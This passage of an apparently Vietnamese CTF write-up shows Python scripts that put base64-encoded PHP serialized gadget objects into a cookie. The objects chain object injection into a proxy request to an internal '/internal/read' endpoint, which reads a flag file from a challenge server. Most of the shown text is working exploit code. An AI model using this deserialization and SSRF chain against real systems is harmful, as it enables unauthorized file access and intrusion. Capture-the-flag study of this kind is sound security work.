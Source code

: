 ```python
cookie = {'app_cookies':'[{"expire_time":1,"data":"Tzo1OiJVdGlscyI6Mzp7czoyMDoiAFV0aWxzAF9jbGVhbnVwX2Z1bmMiO3M6NjoiZGVmaW5lIjtzOjI1OiIAVXRpbHMAX2NsZWFudXBfZnVuY19hcmdzIjthOjI6e2k6MDtzOjE4OiJJTlRFUk5BTF9JTkNMVURJTkciO2k6MTtiOjE7fXM6MjQ6InNob3VsZF9nYXJiYWdlX29uY2VfZG9uZSI7aToxO30="},{"expire_time":1,"data":"Tzo1OiJVdGlscyI6Mzp7czoyMDoiAFV0aWxzAF9jbGVhbnVwX2Z1bmMiO3M6MTg6IlxVdGlsczo6cGFnaW5hdGlvbiI7czoyNToiAFV0aWxzAF9jbGVhbnVwX2Z1bmNfYXJncyI7YToxOntpOjA7czo5OiJQcm94eUltcGwiO31zOjI0OiJzaG91bGRfZ2FyYmFnZV9vbmNlX2RvbmUiO2k6MTt9"},{"expire_time":1,"data":"'+base64.b64encode(cmd).decode()+'"}]'}

x = requests.get("http://4.216.196.42:1337/", cookies=cookie)
print(x.text)
```

![image](https://hackmd.io/_uploads/B1GRC2g_1l.png)


* offset sẽ chạy từ 470000 đến 530000 với mỗi offset sẽ đọc len(cmd_to_run) kí tự, nếu lệnh đó được thực thi thì chắc chắn đó là cmd_to_run mà ta truyền vào

* Khi lệnh được thực thi thì ở thư mục home chúng ta có một file b chứa flag

Nhiệm vụ của ta chỉ là đọc nó bằng internal/read thui

```python
import requests
import base64

file = "/home/shin24/b"

cmd = 'O:9:"ProxyImpl":4:{s:14:"\x00ProxyImpl\x00url";s:35:"http://back-end:3000/internal/read?";s:17:"\x00ProxyImpl\x00method";s:4:"POST";s:18:"\x00ProxyImpl\x00headers";a:0:{}s:15:"\x00ProxyImpl\x00data";a:1:{s:4:"file";s:'+str(len(file))+':"'+file+'";}}'

cmd = cmd.encode()

cookie = {'app_cookies':'[{"expire_time":1,"data":"Tzo1OiJVdGlscyI6Mzp7czoyMDoiAFV0aWxzAF9jbGVhbnVwX2Z1bmMiO3M6NjoiZGVmaW5lIjtzOjI1OiIAVXRpbHMAX2NsZWFudXBfZnVuY19hcmdzIjthOjI6e2k6MDtzOjE4OiJJTlRFUk5BTF9JTkNMVURJTkciO2k6MTtiOjE7fXM6MjQ6InNob3VsZF9nYXJiYWdlX29uY2VfZG9uZSI7aToxO30="},{"expire_time":1,"data":"Tzo1OiJVdGlscyI6Mzp7czoyMDoiAFV0aWxzAF9jbGVhbnVwX2Z1bmMiO3M6MTg6IlxVdGlsczo6cGFnaW5hdGlvbiI7czoyNToiAFV0aWxzAF9jbGVhbnVwX2Z1bmNfYXJncyI7YToxOntpOjA7czo5OiJQcm94eUltcGwiO31zOjI0OiJzaG91bGRfZ2FyYmFnZV9vbmNlX2RvbmUiO2k6MTt9"},{"expire_time":1,"data":"'+base64.b64encode(cmd).decode()+'"}]'}

x = requests.get("http://4.216.196.42:1337/", cookies=cookie)
print(x.text)
```

Và chúng ta đã lấy được flag

![image](https://hackmd.io/_uploads/HkywJ6eu1e.png)

